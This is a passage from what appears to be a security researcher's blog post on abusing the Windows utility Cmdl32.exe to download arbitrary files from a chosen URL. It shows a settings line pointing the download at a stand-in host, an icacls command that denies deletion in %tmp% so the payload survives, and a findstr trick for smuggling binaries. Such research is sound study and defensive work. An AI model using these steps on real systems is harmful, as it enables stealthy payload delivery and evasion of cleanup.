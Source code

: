 {{ img(file="strings.png") }}

It's also important to be aware of the encoding used for searching strings. Cmdl32.exe stores strings as plain old <a href="https://www.rapidtables.com/code/text/ascii-table.html?c=A&amp;ref=elliotonsecurity.com" target="_blank">ASCII</a> (a sign of this program's age). However, the vast majority of (modern) programs on Windows store 'wide' strings which are UTF-16 (LE) encoding. So, we simply have specify to our 'strings' search tool what encoding of string to look for. In IDA, this is easily done by selecting either the `C-style` or `Unicode C-style (16 bits)` checkboxes pictured above.

### Hurdle 2: Surviving DeleteFileA

At this point, we have successfully used `Cmdl32.exe` to make an HTTP (or HTTPS) request to download a file from a website of our choosing. We can see proof of this success by looking for the HTTP request with a packet sniffer such as Wireshark (`UpdateUrl=http://example.com` in `settings.txt` here):

{{ img(file="packet-capture.png") }}

But, there's a problem... If `Cmdl32.exe` detects that our downloaded file does not contain the `[VPN Servers]` profile section (just that text prepended to the file) then it will immediately delete the file:

{{ img(file="detect-vpn-servers-profile.png") }}

Followed by the actual deletion not long after the file is detected to not be in the valid format:

{{ img(file="delete-file.png") }}

One way to solve this would be to simply add the text `[VPN Servers]` to the start of our downloaded file, however, this would limit what we can download to maybe only scripts and base 64 encoded content (no binary data such as EXEs or DLLs).

I haven't tested whether `GetPrivateProfileSectionA` allows for arbitrary binary data after seeing the `[VPN Servers]` header it's looking for. But, in the case that it's allowed we could use run `findstr /v "[VPN Servers]" <FILE_PATH>` after downloading to remove the `[VPN Servers]` header and leave everything else (like our EXE data) in the file. `findstr.exe` fully supports binary data and is a known trick for achieving some things in batch programming and with 'living off the land' techniques.

Another (very dicey) approach would be to simply race the deletion, if we kept downloading the file until we were able to move/copy it before `DeleteFileA` is called by `Cmdl32.exe` then that might work. File creation and writing of the downloaded contents to the file are done with two separate Win32 function calls, `GetTempFileNameA` and `WriteFile` respectively (the whole file is written from a memory buffer at once). This means we would also have to check to make sure the file size isn't zero (only just created, nothing downloaded and written yet) before moving/copying. While I think this method is certainly possible, it's very noisy (not stealth) and would be a very dirty way of accomplishing our goal.

I briefly considered the former two approaches but quickly dismissed them after remembering that NTFS (the default filesystem used by Windows) supports denying deletion permissions on files/directories using <a href="https://en.wikipedia.org/wiki/Access-control_list?ref=elliotonsecurity.com" target="_blank">ACLs</a> (as do the filesystems on Linux and MacOS). Furthermore, there is a command-line tool for granting and denying even advanced ACLs called `icacls.exe` that's been available since Windows Vista. Using `icacls.exe` to remove deletion permissions from the temporary directory (`%tmp%` or `%temp%`) for the current user is as simple as running `icacls %tmp% /deny %username%:(OI)(CI)(DE,DC)` where `DE` = `delete` and `DC` = `delete child`. `(OI)(CI)` enables the inheritance of these permissions for new files as they are created in the directory. See the Twitter demo (or try it yourself) to see what this looks like.
